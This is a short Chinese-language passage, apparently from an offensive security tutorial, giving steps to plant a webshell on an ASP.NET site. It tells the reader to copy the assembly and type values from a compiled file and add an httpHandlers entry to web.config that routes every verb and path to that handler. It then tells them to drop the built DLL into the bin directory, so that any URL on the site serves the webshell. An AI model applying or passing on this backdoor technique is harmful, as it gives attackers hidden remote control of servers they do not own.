  ![](7.png)
* 复制compilde文件里面的assembly值和 type值
* 修改网站根目录的web.config，添加如下代码：

  \<system.web>

  ```
  <httpHandlers>
      <add verb="*" path="*" type="assembly值, type值" validate="True"/>
  </httpHandlers>
  </system.web>
  ```

* 把生成的dll放到网站bin目录

* 访问任意地址都是webshell
